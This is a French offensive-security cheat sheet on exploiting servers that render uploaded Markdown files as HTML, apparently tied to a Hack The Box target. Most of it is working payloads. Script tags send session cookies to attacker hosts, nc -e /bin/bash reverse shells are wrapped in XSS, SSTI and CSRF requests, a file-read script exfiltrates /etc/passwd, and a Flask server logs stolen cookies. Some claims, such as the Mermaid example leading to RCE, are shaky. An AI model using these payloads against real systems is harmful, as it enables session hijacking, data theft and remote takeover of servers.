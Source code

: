 # Exécuter le XSS avec les fichiers au format .md


Lors du téléchargement d'un fichier qui peut être traité par le serveur au format HTML, nous devons garder à l'esprit que tout ce qui est traité en HTML est probablement vulnérable à XSS (exécution de javascript).

Le fichier markdown est un fichier d'usage courant principalement dans github avec l'extension ".md" (README) dont le but est de décrire un procéssus, une installation etc... 
Une fois ce fichier soumis au serveur, certains serveurs peuvent procéder comme du HTML avant de le stocker.
Là, nous pouvons effectuer du XSS comme suit :



📜 Exploit 1️⃣ : XSS avec Markdown → RCE via JavaScript

Si le serveur convertit le Markdown en HTML mais ne filtre pas les balises <script>, on peut injecter du JS malveillant :

# Test d'Injection XSS
<script>
    fetch("http://ton-serveur.com/steal?cookie=" + document.cookie);
</script>

➡️ Impact : Récupération des cookies de session, potentiellement utilisables pour hijacker une session.



📜Exploit 2️⃣ : Injection de code dans un Notebook Jupyter

Si le Markdown est utilisé dans Jupyter Notebook, tu peux exécuter du Python directement :

```python
import os
os.system("nc -e /bin/bash TON_IP TON_PORT")

➡️ **Impact :** Remote Code Execution (RCE) si le serveur exécute le Markdown dans un environnement Jupyter.  

---

### **📜 Exploit 3️⃣ : Inclusion de fichiers (`LFI`)**
Si le serveur permet d'inclure du Markdown à partir d'un chemin local, tu peux essayer ceci :

```markdown
![LFI Test](file:///etc/passwd)

➡️ Impact : Lecture de fichiers système sensibles. Si combiné avec RCE, on peut exécuter du code.


📜 Exploit 4️⃣ : Injection Bash via Markdown dans un CMS

Si le serveur exécute des commandes Markdown dans un CMS comme Ghost, certains supports comme Mermaid.js permettent d’exécuter du JavaScript :

```mermaid
graph TD;
A[Click Me] -->|XSS| B("alert('Hacked!')");

➡️ **Impact :** Possibilité de RCE si le serveur exécute du JavaScript malveillant.  

---






📜 Exploit : XSS pour exfiltrer les cookies

Crée un fichier exploit.md avec le contenu suivant :

# Exploit XSS - Vol de Cookies

<script>
  fetch("http://TON_IP:TON_PORT/cookie?data=" + document.cookie);
</script>

🔹 Étapes d'exploitation :

1️⃣ Lancer un serveur d'écoute sur ta machine pour capturer les cookies :

nc -lvnp 9001

2️⃣ Héberger exploit.md sur la cible et le faire afficher dans un navigateur.

3️⃣ Si le XSS fonctionne, le navigateur de la victime exécutera le script et enverra les cookies sur ta machine.

4️⃣ Les cookies s’affichent dans ton Netcat.
🔹 Améliorations possibles :

    Utiliser une requête AJAX invisible pour envoyer les cookies sans alerter l’utilisateur :

<script>
  var i = new Image();
  i.src = "http://TON_IP:TON_PORT/cookie?data=" + document.cookie;
</script>

    Créer un serveur Flask pour loguer les cookies :

from flask import Flask, request

app = Flask(__name__)

@app.route('/cookie')
def log_cookie():
    cookie = request.args.get('data')
    print(f"Cookie volé : {cookie}")
    return '', 204  # Réponse vide

app.run(host='0.0.0.0', port=9001)








🔥 Méthodes pour obtenir un reverse shell via XSS
1️⃣ Si la cible utilise eval() en JavaScript (Exécution locale)

Si l'application exécute du JS avec eval(), tu peux injecter un reverse shell via WebSockets ou fetch :

<script>
eval(require('child_process').execSync('nc -e /bin/bash TON_IP TON_PORT'));
</script>

📌 Problème : Peu de serveurs utilisent eval() dans du JS exécuté côté serveur.
2️⃣ Exploiter une API REST vulnérable

Si l'application fait des requêtes vers une API qui exécute des commandes, tu peux envoyer une requête malveillante avec XSS :

<script>
fetch("http://alert.htb/api/run?cmd=nc -e /bin/bash TON_IP TON_PORT");
</script>

📌 Utile si l’application a une fonctionnalité "Exécuter une commande"
3️⃣ Si le serveur utilise Node.js avec une vulnérabilité dans res.send()

Si l'application tourne sur Node.js et expose des routes vulnérables, essaie :

<script>
fetch("http://alert.htb/admin?name='+require('child_process').exec('nc -e /bin/bash TON_IP TON_PORT')+'");
</script>

📌 Exploitable si le serveur construit dynamiquement des réponses HTML avec des entrées non filtrées.
4️⃣ Transformer l’XSS en SSTI (Server-Side Template Injection)

Si l’application utilise Jinja2, Twig, ou EJS, tu peux injecter une RCE via SSTI :

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.system("nc -e /bin/bash TON_IP TON_PORT") }}

📌 À tester si l’XSS peut être inséré dans une page qui utilise un moteur de template.
5️⃣ Exploiter un administrateur connecté (CSRF + XSS)

Si un admin est connecté, tu peux utiliser l'XSS pour lui faire exécuter un script qui déclenche une RCE sur le serveur via une page vulnérable :

<script>
fetch("http://alert.htb/admin/run?cmd=nc -e /bin/bash TON_IP TON_PORT", { credentials: "include" });
</script>

📌 Fonctionne si l’admin a plus de privilèges et que l'application a une page de gestion de commandes.




<script>
    var url = "messages.php?file=../../../../../../../etc/passwd"
    var attacker = "http://<your-ip-address>:4444/exfil"
    var xhr = new XMLHttpRequest()
    xhr.onreadystatechange = function () {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
      }
    }
    xhr.open("GET", url, true)
    xhr.send(null)
</script>


<script>
fetch('http://your_ip:your_port', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
